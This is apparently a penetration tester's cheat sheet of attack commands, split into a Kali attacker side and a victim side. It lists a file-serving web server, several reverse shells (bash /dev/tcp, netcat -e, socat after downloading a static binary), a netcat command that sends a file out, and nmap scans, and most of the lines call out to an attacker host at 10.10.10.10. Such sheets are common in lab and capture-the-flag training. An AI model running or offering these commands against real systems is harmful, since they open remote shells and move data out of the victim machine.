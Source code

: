 # Useful Commands

## Web server

### With Python

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 80```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Upgrade reverse shell

### With Socat

Victim: 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
Kali:   ```socat file:`tty`,raw,echo=0 tcp-listen:4444```

### With Python

Victim: ```python3 -c 'import pty; pty.spawn("/bin/sh")'```

## Send files

### With netcat

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444```

Kali:   ```nc -lvp 4444 > file.txt```

## Reverse shells

### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

# Enumeration

### Nmap

TCP Scan:

```nmap -sV -sC -p- 10.10.10.77```

UDP Scan:

```nmap -sU -sV -p- 10.10.10.77```

# Privilege Escalation

# Some Scripts

# References
